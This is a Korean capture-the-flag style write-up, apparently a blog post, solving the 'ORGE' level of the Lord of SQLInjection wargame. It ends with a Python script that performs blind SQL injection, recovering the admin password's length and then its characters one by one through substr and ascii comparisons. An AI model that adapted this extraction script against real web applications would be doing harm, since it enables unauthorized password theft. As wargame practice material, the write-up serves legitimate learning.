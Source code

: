 ```yaml
---
title: "Lord of SQLInjection - ORGE"
categories: 
  - SQLi
tags:
  - SQLi
  - 웹해킹
toc: true
---
```


# ORGE
## 문제
![img](/assets/images/los/orge1.png)

- ORC문제(addslashes)에 or, and 문자 필터링이 추가된 심화 문제이다.
- ORC문제처럼 첫번째 쿼리에서 admin의 패스워드를 추출하면 될것으로 보인다.
- ord 함수를 사용하지 못하고, substr만으로 비교하면 대소문자가 구분이 되지 않음에 주의한다.
- url에 &가 입력 되지 않으니 %26으로 URL Encoding하여 입력한다.

## 정답
![img](/assets/images/los/orge2.png)

![img](/assets/images/los/orge3.png)

```python
import requests

password = ''

url = "https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php"

cookie = {'PHPSESSID' : 'PHP 세션 아이디'}

pass_len = 0

for length in range(1,30):
    query = "?pw=' || id='admin' %%26%%26 %d=length(pw)%%23" %length
    URL = url+query

    r = requests.get(url=URL, cookies=cookie)

    if 'Hello admin' in str(r.content):
        pass_len = length
        break

    else:
        print(str(length) + "--- X")
		

print("password length : %d" %pass_len)
password=''

for i in range(1, pass_len+1):
    for j in range(38, 127):
        query = "?pw=' || id='admin' %%26%%26 ascii(substr(pw,%d,1))=%d %%23" %(i, j)
        URL = url+query
        r = requests.get(url=URL, cookies=cookie)
        
        if 'Hello admin' in str(r.content):
            password += chr(j)
            break

print ('passowrd :  %s' %password)

```